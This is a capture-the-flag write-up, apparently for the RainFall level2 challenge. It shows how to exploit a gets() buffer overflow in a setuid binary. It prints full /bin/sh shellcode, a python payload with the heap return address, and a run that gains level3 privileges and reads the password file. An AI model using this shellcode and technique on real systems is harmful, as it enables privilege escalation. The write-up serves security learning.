


# LEVEL2

## 1. Inspect The Executable

```bash
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```

We can see that the binary has the `s` bit set on the **execution permission**, which means the program will run with level3 privileges.

```bash
level2@RainFall:~$ ./level2 


level2@RainFall:~$ ./level2 
a
a
level2@RainFall:~$ ./level2 
abc
abc
level2@RainFall:~$ ./level2 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

The program waits for **user input**, most likely a call to `read` or a `gets` and prints it back. 

```bash
level2@RainFall:~$ ./level2 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa       
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJ����
level2@RainFall:~$ ./level2 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJ����
level2@RainFall:~$ ./level2 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJ�
level2@RainFall:~$ ./level2 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaa
level2@RainFall:~$ ./level2 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaa
Segmentation fault (core dumped)
```

These tests indicate a **buffer overflow vulnerability** (here triggered with 76 `a` characters), meaning there is **no protection** on the input buffer. And we can observe a **change of value** around the **65th character**.

## 2. Analyze The Executable

```bash
(gdb) info functions 
All defined functions:

Non-debugging symbols:
[...]
0x080484d4  p
0x0804853f  main
[...]
```

Using the gdb command `info functions`, we can list all functions present in the binary.
Here, we find 2 interesting functions: `main` and `p`.

### Program Behavior

#### main function


The `main` function calls `p()` then returns.

#### p function 

The `p` function first calls `fflush()` on `stdout` to **flush** any buffered output.

It then calls `gets()` to **read user input** into a **local variable** named `local_50`, **without** any **protection** against buffer overflow.

After the input is read, the function performs a **security check** on `unaff_retaddr`.
This check verifies whether the **return address is located in the memory** range `0xb0000000`.
If the condition is `true`, the program prints the return address and exits immediately using `_exit(1)`.
This **protection prevents execution** from **certain memory regions**.

If the check passes, the program **continues normally**. The input is printed using `puts()` then the string is duplicated using `strdup()`.


## 3. Exploit Development

### Stack Layout

By analyzing the **assembly dump**, we can observe that `unaff_retaddr` is actually **stored** at offset `-0xc(%ebp)`:

```s
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
```

Which means:
```
EBP - 0xC  →  EBP - 12	(0xC being 12 in hexadecimal)
```

Since `unaff_retaddr` is a `4-byte` variable, it overlaps with `4 bytes` of `local_50`, from `local_50[64]` to `local_50[67]`.

The `and` **operation** modifies these bytes, which explains the **unexpected characters** observed in the output (e.g. `[...]aaJ����`).

---

So, the stack layout looks like this :



---

Note:
`ESP` ends up at `EBP - 104 bytes` because of the **allocation** performed in the function prologue:

```s
   0x080484d7 <+3>:	sub    $0x68,%esp
```

The `sub` operation with `0x68` then allocates **104 bytes** (`0x68` in decimal) for **local variables**.

As a result:

```
ESP = EBP - 104
```

---

### Understand The Attack

By **overflowing** the **local variable**, we **overwrite** the saved EBP and the **saved EIP**.
The **saved EIP** being a pointer can be used to **redirect execution** to another function.

The idea is to **overwrite** the buffer with **arbitrary data** and **end** the **payload** with the **address of the target** function.
Because of **little-endian architecture**, the address must be **written in reverse byte order** (e.g. `0x01234567` → `\x67\x45\x23\x01`).

The main difficulty here is deciding **where to redirect execution**. There is **no internal function** that directly **spawns a shell**.
To solve this, we use an **external payload** called `shellcode`:

```
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```

A **shellcode** is a **sequence of machine instructions** encoded in hexadecimal. It is not human-readable, and it is **executable by the CPU**.

(This one was taken form [shell-storm](https://shell-storm.org/shellcode/files/shellcode-841.html).)

---

### Payload Structure

This shellcode is 21 bytes long, with this we can **define the structure of the payload** :
```
<shellcode> + <buffer overflow> + <shellcode address>
   21       +        59         + 			4				   = 84 bytes
└─────────────┬────────────────┘
			80 bytes
```

---

### Find the Shellcode Address

The last piece of information required is the **address of the shellcode** in the memory.
We can use the return value of `strdup()`, which duplicates the input (containing our shellcode) to the heap and returns its address.


```bash
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                    = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5test
)                                         = 0xbffff70c
puts("test"test
)                                                                          = 5
strdup("test")                                                                        = 0x0804a008
```

With this `ltrace` output we can get the **return value** of `strdup()`, which is the **address of the duplicated string**: `0x0804a008`. In little-endian format:
```
\x08\xa0\x04\x08
```

### Overflow Visualization




### Create the Payload

```
python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'a' * 59 + '\x08\xa0\x04\x08'"
```

**Explanation:**
- `python`				: launches the Python interpreter.
- `-c` 					: executes the command passed as a string.
- `print` 				: outputs data to standard output.

## 4. Capture The Flag

```bash
level2@RainFall:~$ python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'a' * 59 + '\x08\xa0\x04\x08'" > /tmp/p
level2@RainFall:~$ cat /tmp/p - | ./level2 
1���Qh//shh/bin��
                 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
XXX
```
